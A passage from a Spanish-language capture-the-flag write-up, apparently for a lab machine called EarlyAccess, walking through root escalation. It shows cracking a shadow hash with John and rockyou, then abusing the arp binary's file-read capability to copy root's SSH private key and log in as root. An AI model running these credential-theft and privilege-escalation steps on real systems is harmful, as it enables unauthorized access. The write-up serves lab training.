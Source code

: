 una vez que nos bota el host nos conectamos de nuevo <i>ssh game-tester@172.19.0.3</i> y listooo...

```bash
-bash-4.4$ cd /docker-entrypoint.d/
-bash-4.4$ ls
miscript.sh node-server.sh
-bash-4.4$ bash -p
bash-4.4# whoami
root
bash-4.4#
```

no vemos ninguna flag en la raiz pero podemos ver el <i>/etc/shadow</i> y existe un mismo usuario <i>game-adm</i>
la trataremos de romper con nuestro querido <i>jhon</i>.

```bash
jhon --wordlist=/usr/share/wordlists/rockyou.txt hash
...
gamemaster (game-adm)
...
```

genial nos dio una contraseña nos conectamos <i>drew@earlyaccess:/home$ su game-adm</i>
este usuario pertenece al grupo <i>4(adm)</i> recordemos que teníamos <i>arp</i> con las
capacidades de <i>=ep</i> la cual nos permite leer archivos como indica <a href='https://gtfobins.github.io/gtfobins/arp/#file-read' target='_blank'>gtfobins</a>,
entonces procedemos de la siguiente manera...

```bash
game-adm@earlyaccess:/home$ LFILE=/root/.ssh/id_rsa
game-adm@earlyaccess:/home$ /usr/sbin/arp -v -f $LFILE 2>&1 | grep -Ev "format|cannot|Unknown host" | sed 's/>> //' >/tmp/id_rsa
game-adm@earlyaccess:/home$ chmod 600 /tmp/id_rsa
game-adm@earlyaccess:/tmp$ ssh -i id_rsa root@localhost
root@earlyaccess:~# cd /root
root@earlyaccess:~# ls
app root.txt
root@earlyaccess:~# cat root.txt
******************

```
